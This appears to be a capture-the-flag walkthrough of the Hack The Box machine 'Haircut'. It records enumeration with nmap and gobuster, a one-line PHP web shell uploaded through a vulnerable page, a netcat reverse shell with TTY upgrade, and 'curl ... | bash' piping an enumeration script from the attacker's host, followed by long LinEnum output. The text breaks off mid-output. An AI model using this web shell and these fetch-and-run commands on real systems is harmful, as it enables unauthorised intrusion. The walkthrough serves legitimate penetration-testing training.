








#### Haircut

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [HTTP Enumeration](#http-enumeration)
- [Reverse Shell](#reverse-shell)
- [Privilege Escalation](#privilege-escalation)

###### Attacker Info

```sh
root@kali:~/haircut# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.0.63  netmask 255.255.255.0  broadcast 10.0.0.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        inet6 2601:644:8500:d9da::757d  prefixlen 128  scopeid 0x0<global>
        inet6 2601:644:8500:d9da:20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x0<global>
        inet6 2601:644:8500:d9da:74d4:81aa:8e21:97fb  prefixlen 64  scopeid 0x0<global>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 239  bytes 32167 (31.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 184  bytes 27871 (27.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 61  bytes 21313 (20.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 61  bytes 21313 (20.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.11  netmask 255.255.254.0  destination 10.10.14.11
        inet6 fe80::c1a9:e29c:6a7c:cb45  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1009  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2  bytes 96 (96.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/haircut#
```

###### Nmap Scan

```sh
root@kali:~/haircut# nmap -sV -sC -oA haircut.nmap 10.10.10.24

Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-18 20:35 EST
Nmap scan report for 10.10.10.24
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (EdDSA)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.42 seconds
root@kali:~/haircut#
```

###### HTTP Enumeration


```sh
root@kali:~/haircut# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.24 -t 25 -x php

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.24/
[+] Threads      : 25
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Extensions   : .php
=====================================================
/uploads (Status: 301)
/exposed.php (Status: 200)
```

```
http://10.10.10.24/exposed.php
```




```sh
root@kali:~/haircut# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.24 - - [18/Feb/2018 20:45:33] code 404, message File not found
10.10.10.24 - - [18/Feb/2018 20:45:33] "GET /test.html HTTP/1.1" 404 -
```









###### Reverse Shell

```sh
root@kali:~/haircut# cat shell.php
<?php echo system($_REQUEST['cmd']); ?>
root@kali:~/haircut#
```

```sh
root@kali:~/haircut# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.24 - - [18/Feb/2018 20:55:52] "GET /shell.php HTTP/1.1" 200 -
```







[``Upgrading simple shells to fully interactive TTYs``](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method1pythonptymodule)

```sh
root@kali:~/haircut# nc -nlvp 8081
listening on [any] 8081 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.24] 55194
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@haircut:~/html/uploads$ ^Z
[1]+  Stopped                 nc -nlvp 8081
root@kali:~/haircut# echo $TERM
xterm-256color
root@kali:~/haircut# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/haircut# stty raw -echo
root@kali:~/haircut# nc -nlvp 8081
                                  reset
reset: unknown terminal type unknown
Terminal type? xterm

www-data@haircut:~/html/uploads$ stty rows 51 columns 204
www-data@haircut:~/html/uploads$
```

###### Privilege Escalation

```sh
root@kali:~/haircut# wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2018-02-18 21:06:54--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.188.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.188.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7926 (7.7K) [text/plain]
Saving to: ‘LinEnum.sh’

LinEnum.sh                                         100%[================================================================================================================>]   7.74K  --.-KB/s    in 0.001s

2018-02-18 21:06:54 (8.16 MB/s) - ‘LinEnum.sh’ saved [38174]

root@kali:~/haircut#
```

```sh
root@kali:~/haircut# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.24 - - [18/Feb/2018 21:07:33] "GET /LinEnum.sh HTTP/1.1" 200 -
```

```sh
www-data@haircut:~/html/uploads$ cd /dev/shm/
www-data@haircut:/dev/shm$ curl http://10.10.14.11:8000/LinEnum.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 38174  100 38174    0     0  57221      0 --:--:-- --:--:-- --:--:-- 57146

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
#

Debug Info
thorough tests = disabled


Scan started at:
Mon Feb 19 03:07:56 CET 2018


### SYSTEM ##############################################
Kernel information:
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


Kernel information (continued):
Linux version 4.4.0-78-generic (buildd@lgw01-11) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017


Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial


Hostname:
haircut


### USER/GROUP ##########################################
Current user/group info:
uid=33(www-data) gid=33(www-data) groups=33(www-data)


Users that have previously logged onto the system:
Username         Port     From             Latest
maria            tty1                      Sun Dec 24 17:33:55 +0100 2017


Who else is logged on:
 03:07:56 up  3:31,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT


Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=105(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=106(lxd) gid=65534(nogroup) groups=65534(nogroup)
uid=107(messagebus) gid=111(messagebus) groups=111(messagebus)
uid=108(uuidd) gid=112(uuidd) groups=112(uuidd)
uid=109(dnsmasq) gid=65534(nogroup) groups=65534(nogroup)
uid=1000(maria) gid=1000(maria) groups=1000(maria),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
uid=110(mysql) gid=117(mysql) groups=117(mysql)
uid=111(lightdm) gid=118(lightdm) groups=118(lightdm)
uid=112(pulse) gid=121(pulse) groups=121(pulse),29(audio)
uid=113(sshd) gid=65534(nogroup) groups=65534(nogroup)

Seems we met some admin users!!!

uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=1000(maria) gid=1000(maria) groups=1000(maria),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)


Sample entires from /etc/passwd (searching for uid values 0, 500, 501, 502, 1000, 1001, 1002, 2000, 2001, 2002):
root:x:0:0:root:/root:/bin/bash
maria:x:1000:1000:maria,,,:/home/maria:/bin/bash


Super user account(s):
root


Are permissions on /home directories lax:
total 12K
drwxr-xr-x  3 root  root  4.0K May 15  2017 .
drwxr-xr-x 23 root  root  4.0K May 16  2017 ..
drwxr-xr-x 15 maria maria 4.0K May 19  2017 maria


### ENVIRONMENTAL #######################################
 Environment information:
USER=www-data
PWD=/dev/shm
HOME=/var/www
SHLVL=2
_=/usr/bin/env


Path information:
/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.


Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/usr/bin/tmux
/usr/bin/screen


Current umask value:
0022
u=rwx,g=rx,o=rx


umask value as specified in /etc/login.defs:
UMASK		022


Password and storage information:
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
Cron jobs:
-rw-r--r-- 1 root root  722 Apr  5  2016 /etc/crontab

/etc/cron.d:
total 28
drwxr-xr-x   2 root root 4096 May 16  2017 .
drwxr-xr-x 109 root root 4096 May 22  2017 ..
-rw-r--r--   1 root root  102 Apr  5  2016 .placeholder
-rw-r--r--   1 root root  244 Dec 29  2014 anacron
-rw-r--r--   1 root root  589 Jul 16  2014 mdadm
-rw-r--r--   1 root root  670 Mar  1  2016 php
-rw-r--r--   1 root root  190 May 15  2017 popularity-contest

/etc/cron.daily:
total 64
drwxr-xr-x   2 root root 4096 May 16  2017 .
drwxr-xr-x 109 root root 4096 May 22  2017 ..
-rw-r--r--   1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x   1 root root  311 Dec 29  2014 0anacron
-rwxr-xr-x   1 root root  376 Mar 31  2016 apport
-rwxr-xr-x   1 root root 1474 Jan 17  2017 apt-compat
-rwxr-xr-x   1 root root  355 May 22  2012 bsdmainutils
-rwxr-xr-x   1 root root 1597 Nov 27  2015 dpkg
-rwxr-xr-x   1 root root  372 May  6  2015 logrotate
-rwxr-xr-x   1 root root 1293 Nov  6  2015 man-db
-rwxr-xr-x   1 root root  539 Jul 16  2014 mdadm
-rwxr-xr-x   1 root root  435 Nov 18  2014 mlocate
-rwxr-xr-x   1 root root  249 Nov 12  2015 passwd
-rwxr-xr-x   1 root root 3449 Feb 26  2016 popularity-contest
-rwxr-xr-x   1 root root  214 May 24  2016 update-notifier-common
-rwxr-xr-x   1 root root 1046 May 19  2016 upstart

/etc/cron.hourly:
total 12
drwxr-xr-x   2 root root 4096 May 15  2017 .
drwxr-xr-x 109 root root 4096 May 22  2017 ..
-rw-r--r--   1 root root  102 Apr  5  2016 .placeholder

/etc/cron.monthly:
total 16
drwxr-xr-x   2 root root 4096 May 16  2017 .
drwxr-xr-x 109 root root 4096 May 22  2017 ..
-rw-r--r--   1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x   1 root root  313 Dec 29  2014 0anacron

/etc/cron.weekly:
total 28
drwxr-xr-x   2 root root 4096 May 16  2017 .
drwxr-xr-x 109 root root 4096 May 22  2017 ..
-rw-r--r--   1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x   1 root root  312 Dec 29  2014 0anacron
-rwxr-xr-x   1 root root   86 Apr 13  2016 fstrim
-rwxr-xr-x   1 root root  771 Nov  6  2015 man-db
-rwxr-xr-x   1 root root  211 May 24  2016 update-notifier-common


Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#


Anacron jobs and associated file permissions:
-rw-r--r-- 1 root root 401 Dec 29  2014 /etc/anacrontab
# /etc/anacrontab: configuration file for anacron

# See anacron(8) and anacrontab(5) for details.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
HOME=/root
LOGNAME=root

# These replace cron's entries
1	5	cron.daily	run-parts --report /etc/cron.daily
7	10	cron.weekly	run-parts --report /etc/cron.weekly
@monthly	15	cron.monthly	run-parts --report /etc/cron.monthly


When were jobs last executed (/var/spool/anacron contents):
total 20
drwxr-xr-x 2 root root 4096 May 16  2017 .
drwxr-xr-x 5 root root 4096 May 16  2017 ..
-rw------- 1 root root    9 Feb 18 23:41 cron.daily
-rw------- 1 root root    9 Feb 18 23:51 cron.monthly
-rw------- 1 root root    9 Feb 18 23:47 cron.weekly


### NETWORKING  ##########################################
Network & IP info:
ens160    Link encap:Ethernet  HWaddr 00:50:56:b9:b8:1b
          inet addr:10.10.10.24  Bcast:10.10.10.255  Mask:255.255.255.0
